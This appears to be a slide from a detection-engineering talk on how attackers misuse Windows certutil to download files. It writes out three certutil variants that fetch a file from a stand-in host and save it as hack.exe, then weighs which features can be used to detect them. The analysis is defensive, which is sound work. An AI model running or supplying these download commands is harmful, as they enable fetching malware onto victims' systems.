

# Analysis after researching the command
certutil –urlcache –f https://example.com/file.123 hack.exe
The –urlcache and –f options are required
certutil –verifyctl –f https://example.com/file.123 hack.exe
The –verifyctl and –f options are required
certutil –URL https://example.com/file.123 hack.exe
-URL is required, but no –f
The likely objective is to download an executable tool. However, the extension could be named to an executable after the download, or it could even just be a PowerShell or batch (.bat) script
Therefore, .exe is not necessarily an invariant – which is a shame because using certutil with .exe files is highly unique to malicious activity (it’s normally used with certificate files)